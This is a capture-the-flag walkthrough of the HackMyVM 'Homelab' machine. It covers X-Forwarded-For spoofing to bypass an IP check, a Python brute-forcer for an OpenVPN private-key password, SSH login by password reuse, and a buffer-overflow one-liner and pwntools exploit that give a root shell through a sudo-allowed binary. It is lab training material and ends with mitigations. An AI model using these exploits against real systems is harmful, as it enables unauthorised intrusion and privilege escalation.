

| Machine Link 🛡️   | [Homelab](https://hackmyvm.eu/machines/machine.php?vm=Homelab) |
| ------------------ | -------------------------------------------------------------- |
| Operating System   | <mark style="background: #FFF3A3A6;">Linux</mark>              |
| Difficulty         | <mark style="background: #FFB86CA6;">Medium</mark>             |
| Machine Created by | [20206675](https://hackmyvm.eu/profile/?user=20206675)         |

---

## **1️⃣ Introduction**

The Homelab machine is a Linux-based virtual machine designed to simulate a home lab environment, offering a practical platform to hone penetration testing skills. This exercise focuses on unique learning goals such as web enumeration, bypassing IP-based restrictions, configuring and exploiting OpenVPN, and performing privilege escalation via buffer overflow exploitation. No specific CVEs are targeted; instead, the process emphasizes manual testing and creative exploitation techniques to achieve root access.

**Target Overview:**

- **IP Address:** 10.0.2.34  
- **Objective:** Gain root access  
- **Assumptions:** Linux-based system running Apache services.

This walkthrough provides an educational journey through identifying vulnerabilities, exploiting them, and escalating privileges in a controlled lab setting.

---

## **2️⃣ Port Scanning**

### **Why:**
Port scanning is a critical first step in penetration testing, enabling the identification of open services and potential entry points. It establishes the attack surface and guides subsequent enumeration efforts.

### **Commands:**

```bash
└─$ sudo nmap -sC -sV -p- -vv -T4 -oN Nmap_Result.txt 10.0.2.34
```
{: .nolineno }

### **Notes:**
- **Command Breakdown:**  
  - `sudo`: Ensures elevated privileges for a comprehensive scan.  
  - `-sC`: Executes default Nmap scripts to gather additional service details.  
  - `-sV`: Identifies service versions for potential vulnerability research.  
  - `-p-`: Scans all 65535 ports to uncover any hidden services.  
  - `-vv`: Provides verbose output for real-time monitoring.  
  - `-T4`: Increases scanning speed with a balanced timing template.  
  - `-oN`: Saves results to a file for documentation.  

- **Output:**  
```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Unix))
|_http-title: Mac OS X Server
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-favicon: Apache on Mac OS X
|_http-server-header: Apache/2.4.62 (Unix)
MAC Address: 08:00:27:1A:E1:C4 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```
{: .nolineno }

- **Discovered Ports and Services:**  
  - **Port 80 (HTTP):** Running Apache httpd 2.4.62, presenting a "Mac OS X Server" webpage. The TRACE method is enabled, which could pose a minor risk but wasn’t exploited here.  
  - **MAC Address:** Indicates a VirtualBox VM, consistent with a lab environment.  

- **Reasoning for Focus:** Port 80 was prioritized due to its accessibility and the likelihood of misconfigurations or hidden endpoints on a web server, making it a prime candidate for further enumeration.

___

## **3️⃣ Web Enumeration**

### **Tools:**

- `feroxbuster` for directory brute-forcing
- `curl` for manual HTTP header manipulation
- Manual browser exploration

### **Content:**

Let see port 80 static site 🔻


_Port 80 dashboard site_

No any option is working so lets find some directories or files from directory brute-force, through <mark style="background: #FFB8EBA6;">feroxbuster</mark> tool.

- **Directory Brute-Forcing with Feroxbuster:**  
  ```bash
  feroxbuster -u 'http://10.0.2.34/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 100 -C 403,404,400,503,500 -o ferox.json -x php,txt,zip
  ```
  {: .nolineno }

  **Output:**  
```bash
200      GET       13l       37w     2194c http://10.0.2.34/poweredbymacosxserver.gif
200      GET      412l     2178w   136171c http://10.0.2.34/script/compressed_libraries.js
301      GET        9l       28w      304c http://10.0.2.34/style => http://10.0.2.34/style/
301      GET        9l       28w      305c http://10.0.2.34/script => http://10.0.2.34/script/
301      GET        9l       28w      306c http://10.0.2.34/service => http://10.0.2.34/service/
200      GET      130l      376w     5435c http://10.0.2.34/
200      GET        5l       27w      226c http://10.0.2.34/style/serverhome_static.css
200      GET      192l      384w     3041c http://10.0.2.34/style/iphone.css
200      GET       75l      215w     2241c http://10.0.2.34/script/serverhome.js
200      GET      351l     1040w    98713c http://10.0.2.34/script/compressed_widgets.js
301      GET        9l       28w      308c http://10.0.2.34/style/img => http://10.0.2.34/style/img/
200      GET        1l       10w       59c http://10.0.2.34/service/
200      GET        1l       10w       59c http://10.0.2.34/service/index.php
```
{: .nolineno }

I can see service directory lets look into it 🔻


_Service page indicate self availability_

- **Potential Attack Surfaces:**  
  - The `/service/` endpoint is protected by an IP-based access control, likely checking the `X-Forwarded-For` header, making it vulnerable to spoofing.  
  - Static files and directories provide additional context but no immediate exploitable points beyond `/service/`.

___

## **4️⃣ Vulnerability Identification**

### **IP-Based Restriction Bypass**

- **What it is:** A security control that only allows access to the /service/ endpoint from specific IP addresses.
- **Why the target is vulnerable:** The server trusted the X-Forwarded-For header to determine the client's IP address, allowing attackers to spoof their IP and bypass the restriction.
- **Links:**  
  - [OWASP: IP Spoofing](https://owasp.org/www-community/attacks/IP_Spoofing)  
  - [PayloadsAllTheThings: X-Forwarded-For](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/X-Forwarded-For)  
  
- **Detailed Explanation:**  
  The `X-Forwarded-For` header is commonly used to track the original client IP through proxies or load balancers. However, when a server relies solely on this header for access control without verifying its authenticity (e.g., via trusted proxy IPs), it becomes exploitable. Here, the `/service/` endpoint likely checks if the XFF header matches an allowed IP (e.g., the server’s own IP), making it susceptible to manipulation.

### **Why Attackers Use `X-Forwarded-For: <victim IP>`**

In security testing/pentesting, manipulating this header serves several purposes:

1. **Bypassing IP-Based Restrictions**

    ```http
    GET /admin HTTP/1.1
    Host: target.com
    X-Forwarded-For: 10.0.2.34  # Victim's trusted IP
    ```
    {: .nolineno }


    - If the server only allows admin access from `10.0.2.34`
    - Attacker spoofs this IP in XFF to bypass the restriction

2. **Evading Detection/Blocking**
    - WAF/IPS might block external IPs but trust internal ones
    - Makes attacks appear to come from "inside" the network

3. **SSRF (Server-Side Request Forgery)**
    - Tricks internal services into thinking requests come from trusted locations
    - Can access internal resources (like cloud metadata services)

4. **Log Poisoning**
    - If logs are displayed/parsed unsafely, can lead to code execution
    - Makes malicious code appear in logs as if from localhost

5. **IP Reputation Abuse**
    - Makes requests appear to come from reputable IPs
    - Bypasses rate limiting or IP-based security measures

So lets bypass IP based restrictions 🔻

```http
─$ curl --path-as-is -i -s -k -X 'GET' 'http://10.0.2.34/service/index.php' -H  "X-Forwarded-For:127.0.0.1"
HTTP/1.1 200 OK
Date: Sat, 02 Aug 2025 05:24:40 GMT
Server: Apache/2.4.62 (Unix)
X-Powered-By: PHP/8.4.5
Content-Length: 59
Content-Type: text/plain;charset=UTF-8

Whoa! But sorry, this service is only available for myself!                                                         
```
{: .nolineno }

With localhost restrictions I do not get in but from the message point of view I need to use victim machine IP here 🔻

```http
└─$ curl --path-as-is -i -s -k -X 'GET' 'http://10.0.2.34/service/index.php' -H  "X-Forwarded-For:10.0.2.34"
HTTP/1.1 200 OK
Date: Sat, 02 Aug 2025 05:25:03 GMT
Server: Apache/2.4.62 (Unix)
X-Powered-By: PHP/8.4.5
Content-Length: 326
Content-Type: text/html; charset=UTF-8

# Last modified by shinosawa
# on 2024-12-21

# Example Configuration File

client
dev tun
proto udp
remote ? ?
resolv-retry infinite
nobind
persist-key
persist-tun
ca ?
cert ?
# Regenerate a STRONG password for the KEY
# Do NOT use a SAME password as other services et. SSH
# it is DANGEROUS!
key ?
cipher AES-256-GCM
verb 3
```
{: .nolineno }

This message / data shows the exact format or contents that contains by an <mark style="background: #FFB86CA6;">OpenVPN</mark> file.

___

## **5️⃣ Exploitation**

### Content:

Let me show you the format of <mark style="background: #FFB86CA6;">OpenVPN</mark> file for example 🔻

```
client                      <-- Client Mode
dev tun                     <-- Tunnel Device
proto udp                   <-- UDP Protocol
remote your_server_ip 1194  <-- Server Address:Port
resolv-retry infinite       <-- Resolve DNS Continuously
nobind                      <-- No Local Port Binding

ca ca.crt                   <-- CA Certificate File
cert client.crt             <-- Client Certificate File
key client.key              <-- Client Private Key

tls-auth ta.key 1           <-- TLS Auth Key:Direction

cipher AES-256-GCM          <-- Encryption Cipher
auth SHA256                 <-- Auth Algorithm

persist-key                 <-- Keep Keys
persist-tun                 <-- Keep Tunnel
explicit-exit-notify        <-- Notify Server Exit
```
{: .nolineno }

From above example file I require 4 things I guess 🔻

1. <span style="color:rgb(0, 83, 250)">your_server_ip</span> : This will be the victim machine IP address.
2. <span style="color:rgb(0, 83, 250)">ca</span> <b><span style="color:rgb(0, 83, 250)">ca.crt</span></b> : This directive specifies the file containing the Certificate Authority (CA) certificate. This certificate is shared between the OpenVPN server and all clients and is crucial for authenticating the server.
3. <span style="color:rgb(0, 83, 250)">cert</span> <b><span style="color:rgb(0, 83, 250)">client.crt</span></b> : This specifies the client's public certificate file. Each client should have its own unique certificate/key pair for optimal security.
4. <span style="color:rgb(0, 83, 250)">key</span> <b><span style="color:rgb(0, 83, 250)">client.key</span></b> : This directive points to the client's private key file. This file must be kept secret and secure on the client machine.

For these files I guess I have to do again directory brute-forcing where I have to look for these certificate extensions.

```bash
└─$ feroxbuster -u 'http://10.0.2.34/service/' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 100 -d 2 -x crt,key,cert
```
{: .nolineno }

```bash
200      GET        1l       10w       59c http://10.0.2.34/service/
200      GET       84l      139w     4492c http://10.0.2.34/service/client.crt
200      GET       20l       22w     1200c http://10.0.2.34/service/ca.crt
200      GET       30l       36w     1862c http://10.0.2.34/service/client.key
```
{: .nolineno }

I got the files let's put it into the <mark style="background: #FFB86CA6;">openvpn</mark> file that I get from the service page like this 🔻

```http
└─$ curl --path-as-is -s -X 'GET' 'http://10.0.2.34/service/index.php' -H  "X-Forwarded-For:10.0.2.34" -o homelab.ovpn
```
{: .nolineno }

Now lets put all the data entries inside the <mark style="background: #FFB86CA6;">OpenVPN</mark> file 🔻

```bash
└─$ cat homelab.ovpn 
# Last modified by shinosawa
# on 2024-12-21

# Example Configuration File

client
dev tun
proto udp
remote 10.0.2.34 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
cert client.crt
# Regenerate a STRONG password for the KEY
# Do NOT use a SAME password as other services et. SSH
# it is DANGEROUS!
key client.key
cipher AES-256-GCM
verb 3
```
{: .nolineno }

Since the default port for <mark style="background: #FFB86CA6;">OpenVPN</mark> is 1194 and it is indicating that the connection is with UDP port lets check it weather it is open or not🔻 

```bash
└─$ sudo nmap -p 1194 10.0.2.34 -sU -sV                     
Nmap scan report for 10.0.2.34
Host is up (0.0027s latency).

PORT     STATE SERVICE VERSION
1194/udp open  openvpn OpenVPN
MAC Address: 08:00:27:1A:E1:C4 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```
{: .nolineno }

Next let run this `openvpn` file to gain an external IP tunnel connection that can expose other IP address with other open ports that can be exploitable 🔻

```bash
└─$ sudo openvpn homelab.ovpn
2025-08-02 11:26:14 Note: Kernel support for ovpn-dco missing, disabling data channel offload.
2025-08-02 11:26:14 WARNING: file 'client.key' is group or others accessible
2025-08-02 11:26:14 OpenVPN 2.6.14 x86_64-pc-linux-gnu [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [PKCS11] [MH/PKTINFO] [AEAD] [DCO]
2025-08-02 11:26:14 library versions: OpenSSL 3.5.1 1 Jul 2025, LZO 2.10
2025-08-02 11:26:14 DCO version: N/A
2025-08-02 11:26:14 WARNING: No server certificate verification method has been enabled.  See http://openvpn.net/howto.html#mitm for more info.
Enter Private Key Password: (no echo)               
```
{: .nolineno }

It is password protected so for decoding the password we can use 2 ways to do it 🔻

1. **OPENVPN** Approach
2. **OPENSSL** Approach

 - Key Differences in Both Approach:

| Feature            | OpenSSL Approach                    | OpenVPN Approach                       |
| ------------------ | ----------------------------------- | -------------------------------------- |
| **Speed**          | Very fast (direct key decryption)   | Slower (full VPN connection setup)     |
| **Resource Usage** | Low (single OpenSSL process)        | High (OpenVPN with network operations) |
| **Accuracy**       | Tests key decryption only           | Tests entire VPN connection process    |
| **Error Handling** | Checks OpenSSL error messages       | Checks OpenVPN connection messages     |
| **Use Case**       | Best for just cracking key password | Best for testing full VPN connectivity |

So I have created a python script using AI through `OpenSSL Approach` that usage a password-list file for password trial and give me the result out of it 🔻

```python
#!/usr/bin/env python3
import subprocess
import os
import sys

# Configuration
encrypted_key_path = "client.key"
decrypted_key_path = "client_decrypted.key"
password_list_path = "/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt"

# Check if key file exists
if not os.path.exists(encrypted_key_path):
    print(f"❌ Error: Encrypted key file not found at {encrypted_key_path}")
    sys.exit(1)

# Count total passwords in wordlist (optimized for large files)
def count_lines(file_path):
    count = 0
    with open(file_path, 'r') as f:
        for _ in f:
            count += 1
    return count

total_passwords = count_lines(password_list_path)

# Header output
print(f"🔓 Starting private key password brute-force...")
print(f"Key: {encrypted_key_path} | Output: {decrypted_key_path}")
print(f"Wordlist: {password_list_path}")
print("-" * 50)

# Process passwords in batches for better performance
batch_size = 500
processed = 0

try:
    with open(password_list_path, 'r') as f:
        for line_num, password in enumerate(f, 1):
            password = password.strip()
            if not password:
                continue

            # Show progress every batch_size attempts
            if line_num % batch_size == 0 or line_num == 1 or line_num == total_passwords:
                display_pass = password[:20] + ('...' if len(password) > 20 else '')
                print(f"\r{' ' * 80}\r[{line_num}/{total_passwords}] Trying: {display_pass}", end='')

            # Construct openssl command
            cmd = [
                "openssl", "rsa",
                "-in", encrypted_key_path,
                "-out", decrypted_key_path,
                "-passin", f"pass:{password}"
            ]

            # Execute command with timeout to prevent hanging
            try:
                process = subprocess.run(
                    cmd, 
                    capture_output=True, 
                    text=True, 
                    check=False,
                    timeout=5  # 5-second timeout per attempt
                )
            except subprocess.TimeoutExpired:
                continue  # Skip if timeout

            # Check for success
            if process.returncode == 0 and "writing RSA key" in process.stderr:
                print("\n" + "=" * 60)
                print(f"🎉 SUCCESS! Password found: {password}")
                print(f"Decrypted key saved to {decrypted_key_path}")
                print("=" * 60)
                sys.exit(0)
            # Continue on wrong password
            elif "bad decrypt" in process.stderr or "digital envelope routines" in process.stderr:
                continue
            # Show other errors only for first few attempts
            elif line_num <= 10:
                print(f"\n[ERROR] Openssl output for '{password}':")
                print(process.stdout)
                print(process.stderr)

        # If we get here, no password worked
        print("\n❌ Password not found in wordlist")

except FileNotFoundError:
    print(f"\n❌ Error: Password list file not found at {password_list_path}")
except KeyboardInterrupt:
    print("\n\n⚠️ Brute-force interrupted by user")
except Exception as e:
    print(f"\n❌ An unexpected error occurred: {e}")

finally:
    # Clean up empty file if created
    if os.path.exists(decrypted_key_path) and os.path.getsize(decrypted_key_path) == 0:
        os.remove(decrypted_key_path)
```
{: .nolineno }

**Output** :

```bash
└─$ python3 find_private_key_pass.py
🔓 Starting private key password brute-force...
Key: client.key | Output: client_decrypted.key
Wordlist: /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt
--------------------------------------------------                                                
[23000/100000] Trying: 2324                                                     
============================================================
🎉 SUCCESS! Password found: XXXXXXX
Decrypted key saved to client_decrypted.key
============================================================
```
{: .nolineno }

I got the password for this <mark style="background: #FFB86CA6;">OpenVPN</mark> file let's run it now, and check the IP address tunnel establish on attacker machine through <mark style="background: #ABF7F7A6;">route</mark>🔻

```bash
└─$ route        
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.0.2.1        0.0.0.0         UG    100    0        0 eth0
10.0.2.0        0.0.0.0         255.255.255.0   U     100    0        0 eth0
10.8.0.0        0.0.0.0         255.255.255.0   U     0      0        0 tun0
10.176.13.0     10.8.0.1        255.255.255.0   UG    0      0        0 tun0
```
{: .nolineno }

This <mark style="background: #ABF7F7A6;">route</mark> indicates you've gained access to a **remote private network** through your VPN connection.

 - **Breakdown**:
	- **Destination**: `10.176.13.0/24` - A remote private network
	- **Gateway**: `10.8.0.1` - The VPN server inside the tunnel
	- **Interface**: `tun0` - Your VPN tunnel interface
	- **Flags**: `UG` - Route is "Up" and uses a "Gateway"


{: .nolineno}

##### What This Means:

-  **You've accessed a new network**:
    
    - The `10.176.13.0/24` network is now reachable through your VPN
    - This is likely an internal network at the VPN server's location
-  **Traffic flow**:
    
    - When you try to reach any IP in `10.176.13.0/24`
    - Traffic goes through your VPN tunnel (`tun0`)
    - Gets routed to the VPN server (`10.8.0.1`)
    - Then forwarded to the `10.176.13.0/24` network

Now let's scan the new network `10.176.13.0/24` 🔻

```bash
└─$ sudo nmap -sn 10.176.13.0/24 # Ping scan to find live hosts               

Nmap scan report for 10.176.13.37
Host is up (0.0017s latency).
Nmap done: 256 IP addresses (1 host up) scanned in 81.48 seconds
```
{: .nolineno }

I can access this IP `10.176.13.37` lets check for any open ports 🔻

```bash
└─$ sudo nmap -sC -sV -p- -vv -T4 10.176.13.37 

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.9 (protocol 2.0)
| ssh-hostkey: 
|   256 f7:f2:e0:96:c0:28:67:93:5f:90:f2:a1:86:73:74:00 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH+CjUSwYPHWSRaCoNKew8nMYY/85uXguTSqxBeMa63bM5IQgj6l27W1EHq3BKEKXohEWB7ekvxZ8LeDfFyrsag=
|   256 92:40:ba:b8:11:ad:79:41:71:f8:9e:00:01:64:9c:34 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBZmrtdcLvdq0gPyIp6dyJpObU2ysXjwyi1j6QfSDKhj
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Unix))
|_http-title: Mac OS X Server
|_http-favicon: Apache on Mac OS X
|_http-server-header: Apache/2.4.62 (Unix)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
```
{: .nolineno }

- **Alternative Methods Considered:**  
	- Cracking the OpenVPN connection directly instead of decrypting the key, though this would be slower and less targeted than the OpenSSL approach.

___

## **6️⃣ Getting Shell**

### Content:

We got port 22 open that means we can try SSH connection as we got the username from <mark style="background: #FFB86CA6;">OPENVPN</mark> file and let's use the private key password as the SSH password and hopes that it works 🔻

```bash
└─$ ssh shinosawa@10.176.13.37                  
shinosawa@10.176.13.37s password: 

homelab:~$ whoami
shinosawa
homelab:~$ id
uid=1000(shinosawa) gid=1000(shinosawa) groups=100(users),1000(shinosawa)
homelab:~$ ls -al
total 32
drwx------    2 shinosawa shinosawa      4096 Apr 17 13:38 .
drwxr-xr-x    3 root     root          4096 Apr 17 12:03 ..
lrwxrwxrwx    1 root     root             9 Apr 17 12:20 .ash_history -> /dev/null
-r-xr-xr-x    1 shinosawa shinosawa     18888 Apr 17 13:38 deepseek
-r--------    1 shinosawa shinosawa        39 Apr 17 12:29 user.flag
homelab:~$
```
{: .nolineno }

___

## **7️⃣ Post-Exploitation Enumeration**

### Content:

I got in, I got the shell so lets enumerate further for `sudo privileges` and see if this user can take me to root or not 🔻

```bash
homelab:~$ sudo -l
Matching Defaults entries for shinosawa on homelab:
   
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for shinosawa:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR
    VISUAL"

User shinosawa may run the following commands on homelab:
    (ALL) NOPASSWD: /home/shinosawa/deepseek
homelab:~$ 
```
{: .nolineno }

Indeed it can, So lets see what this file `/home/shinosawa/deepseek` does 🔽

With the help of ghidra tool in my host machine I got these functions executing from deepseek binary ⏬

```c
undefined8 main(void)

{
  setbuf((FILE *)0x0,(char *)0x0);
  vuln();
  return 0;
}


void processEntry entry(void)

{
  _start_c((long *)&stack0x00000000);
  return;
}


void execute(void)

{
  puts("[*] in execute()");
  fflush((FILE *)0x0);
  puts("[*] running shell");
  fflush((FILE *)0x0);
  execl("/bin/sh","sh",0);
  perror("execl failed");
                    /* WARNING: Subroutine does not return */
  exit(1);
}


/* WARNING: Removing unreachable block (ram,0x004011f 8) */

void frame_dummy(void)

{
  __register_frame_info(&fde_00402148,object.0);
  register_tm_clones();
  return;
}


void typewriter_output(void)

{
  size_t sVar1;
  ulong local_10;
  
  local_10 = 0;
  while( true ) {
    sVar1 = strlen(
                  "<think>\nEmm, I\'m so tired and don\'t want to a nswer any questions.\n</think>\n\nThinking has st opped.\nThe server is busy, please try again later.\n "
                  );
    if (sVar1 <= local_10) break;
    putchar((int)"<think>\nEmm, I\'m so tired and don\'t want t o answer any questions.\n</think>\n\nThinking has stopped .\nThe server is busy, please try again later.\n"
                 [local_10]);
    fflush((FILE *)0x0);
    usleep(50000);
    local_10 = local_10 + 1;
  }
  return;
}


void vuln(void)

{
  char local_48 [64];
  
  printf(">>> ");
  fflush((FILE *)0x0);
  fgets(local_48,0x100,(FILE *)0x0);
  typewriter_output();
  return;
}

```
{: .nolineno }

### **Function Overview**

#### 1. `main(void)`

- **Purpose**: Entry point of the program
- **Functionality**:
    - Disables buffering for standard I/O streams
    - Calls the vulnerable `vuln()` function
    - Returns 0 on completion
- **Security Relevance**: Minimal, just sets up the program flow

#### 2. `execute(void)`

- **Purpose**: Spawns a shell
- **Functionality**:
    - Prints status messages: "[_] in execute()" and "[_] running shell"
    - Executes `/bin/sh` using `execl()`
    - Handles execution failure with error message
- **Security Relevance**: **TARGET FUNCTION** - This is what we redirect execution to during exploitation

#### 3. `vuln(void)`

- **Purpose**: Handles user input with a critical vulnerability
- **Functionality**:
    - Creates a 64-byte buffer (`local_48`)
    - Displays ">>> " prompt
    - Reads up to 256 bytes into the 64-byte buffer using `fgets()`
    - Calls `typewriter_output()` to display a message
- **Security Relevance**: **VULNERABILITY** - Classic buffer overflow (256 bytes into 64-byte buffer)

#### 4. `typewriter_output(void)`

- **Purpose**: Creates a typewriter effect for output
- **Functionality**:
    - Prints a message character by character with 50ms delays
    - Message: "Emm, I'm so tired and don't want to answer any questions..."
    - Creates a "busy server" effect
- **Security Relevance**: None, just user experience

#### 5. `processEntry entry(void)`

- **Purpose**: Program initialization wrapper
- **Functionality**: Calls `_start_c()` for setup
- **Security Relevance**: Not relevant to exploitation

#### 6. `frame_dummy(void)`

- **Purpose**: Compiler-generated initialization
- **Functionality**: Registers frame information for exception handling
- **Security Relevance**: Not relevant to exploitation

### Program Flow & Exploitation

```
main() → vuln() → [BUFFER OVERFLOW] → execute() → /bin/sh
```
{: .nolineno }

### **Key Security Loopholes 🔽**

1. **Buffer Overflow Vulnerability**:
    
    - `fgets()` reads 256 bytes into a 64-byte buffer
    - No bounds checking allows overwriting adjacent stack data
    - Return address can be overwritten to redirect execution
2. **Control Flow Hijacking**:
    
    - By overflowing the buffer, we overwrite the return address
    - Redirect execution to `execute()` instead of normal return
    - `execute()` provides a shell with `/bin/sh`
3. **Exploitation Steps**:
    
    - Send 72 bytes of padding (64 bytes buffer + 8 bytes RBP)
    - Followed by address of `execute()` in little-endian format
    - When `vuln()` returns, jumps to `execute()` instead of caller
4. **Why It Works**:
    
    - No stack canaries (no protection against buffer overflow)
    - No ASLR (addresses are predictable)
    - No NX bit (stack is executable)


So here is a python one liner code that does the task 🔻

```bash
(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\xd6\x11\x40\x00\x00\x00\x00\x00")'; cat) | sudo /home/shinosawa/deepseek
```
{: .nolineno }

(Replace `\xd6\x11\x40\x00\x00\x00\x00\x00` with your address in little-endian)

But before we run it, I need to **find exact address of the execute() function to replace it**🔻

```bash
homelab:~$ objdump -d /home/shinosawa/deepseek | grep execute
0000000000401266 <execute>:
homelab:~$
```
{: .nolineno }

Now place the address in a little endian format and then into the python one liner and to convert it to Little Endian here is the steps 🔻

##### **Step 1: Understand Little-Endian Format**:

In 64-bit systems, addresses are stored as 8 bytes. Little-endian means:

- Least significant byte comes first
- Most significant byte comes last

##### **Step 2: Convert 0x401266 to Little-Endian**:

1. **Full 64-bit representation**: `0x0000000000401266`
2. **Break into bytes** (from least to most significant):
    ```
    66 12 40 00 00 00 00 00
    ```
    {: .nolineno }
3. **Little-endian byte sequence**: `\x66\x12\x40\x00\x00\x00\x00\x00`

Now I can run this one-liner python buffer overflow string into the command to make it executable for `/bin/sh` command 🔻

```bash
(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\x66\x12\x40\x00\x00\x00\x00\x00")'; cat) | sudo /home/shinosawa/deepseek
```
{: .nolineno }

___

## **8️⃣ Privilege Escalation**

### **Method Used: Buffer Overflow Exploitation**

Let's run it now 🔻

```bash
homelab:~$ (python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\x66\x12\x40\x00\x00\x00\x00\x00")'; cat) | sudo /home
/shinosawa/deepseek
>>> 
<think>
Emm, I'm so tired and don't want to answer any questions.
</think>

Thinking has stopped.
The server is busy, please try again later.
[*] in execute()
[*] running shell

whoami
root
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
cd ~
pwd
/root
ls -al

total 12
drwx------    2 root     root          4096 Apr 17 13:43 .
drwxr-xr-x   21 root     root          4096 Apr 17 13:59 ..
lrwxrwxrwx    1 root     root             9 Apr 15 22:58 .ash_history -> /dev/null
-rwx------    1 root     root            39 Apr 17 13:43 root.flag
```
{: .nolineno }

- **Explanation:** The payload overflows the 64-byte buffer with 72 bytes (64 + 8 for the base pointer) and overwrites the return address with `execute()`, spawning a root shell.

But I wasn't able to get an interactive shell so I automated it with python using `pwntool` library and here is the script 🔻

```bash
from pwn import *

# Configuration
BINARY_PATH = "/home/shinosawa/deepseek"
BUFFER_SIZE = 64
OFFSET = 72
EXECUTE_ADDR = 0x401266

def create_payload():
    """Create the buffer overflow payload"""
    padding = b'A' * OFFSET
    execute_addr_bytes = p64(EXECUTE_ADDR)
    return padding + execute_addr_bytes

def exploit():
    """Execute the buffer overflow attack"""
    print(f"[*] Creating payload with return address: {hex(EXECUTE_ADDR)}")
    payload = create_payload()
    
    # Start the process with sudo
    p = process(['sudo', BINARY_PATH])
    
    # Send the payload
    p.sendline(payload)
    
    # Upgrade the shell with a custom root prompt
    p.sendline(b'python3 -c "import pty; pty.spawn(\'/bin/bash --rcfile <(echo \"PS1=\\\"# \\\"\")\')"')
    
    # Switch to interactive mode
    p.interactive()

if __name__ == "__main__":
    exploit()
```
{: .nolineno }

___

## **9️⃣ Root Access**

The script provide me better handling of root access in an interactive mode 👾

**Output** : 

```bash
homelab:~$ python3 exploit1.py 
[*] Creating payload with return address: 0x401266
[+] Starting local process '/usr/bin/sudo': pid 6748
[*] Switching to interactive mode
>>> <think>
Emm, I'm so tired and don't want to answer any questions.
</think>

Thinking has stopped.
The server is busy, please try again later.
[*] in execute()
[*] running shell
$ whoami
root
$ id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
$ cd ~
$ ls -al
total 12
drwx------    2 root     root          4096 Apr 17 13:43 .
drwxr-xr-x   21 root     root          4096 Apr 17 13:59 ..
lrwxrwxrwx    1 root     root             9 Apr 15 22:58 .ash_history -> /dev/null
-rwx------    1 root     root            39 Apr 17 13:43 root.flag
$ cat root.flag
flag{e3b081b8af1c7079049b029c7cb8bd0d}
$
```
{: .nolineno }

I am root now !!

___

### **Alternative method 🔻**

I as a <b><span style="color:rgb(219, 0, 0)">shinosawa</span></b> have full write to modify this file so lets replace it with another custom made executable file and execute as root like this 🔻

```bash
homelab:~$ whoami
shinosawa
homelab:~$ ls -al deepseek 
-r-xr-xr-x    1 shinosawa shinosawa     18888 Apr 17 13:38 deepseek
homelab:~$ mv deepseek deeps33k
homelab:~$ echo "/bin/sh" > deepseek
homelab:~$ chmod +x deepseek
homelab:~$ sudo /home/shinosawa/deepseek -p
/home/shinosawa # whoami
root
/home/shinosawa # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/home/shinosawa # cd ~
~ # pwd
/root
~ # ls -al
total 12
drwx------    2 root     root          4096 Apr 17 13:43 .
drwxr-xr-x   21 root     root          4096 Apr 17 13:59 ..
lrwxrwxrwx    1 root     root             9 Apr 15 22:58 .ash_history -> /dev/null
-rwx------    1 root     root            39 Apr 17 13:43 root.flag
~ # 
```
{: .nolineno }

I am root now !!

---

## **🔍 Mitigation**

✅ **Validate X-Forwarded-For Header:** Implement server-side validation to trust only verified proxy IPs, preventing spoofing.  
✅ **Secure OpenVPN Configuration:** Store certificates and keys outside the web root and enforce strong, unique passwords.  
✅ **Patch Buffer Overflow:** Add bounds checking in `deepseek` and enable stack protections (e.g., canaries, ASLR).  
✅ **Restrict Sudo Privileges:** Limit sudo to specific, safe commands rather than arbitrary executables.  

---

## **💡 Takeaways**

✅ **IP Spoofing Mastery:** Learned to bypass IP restrictions using `X-Forwarded-For`, a valuable web testing skill.  
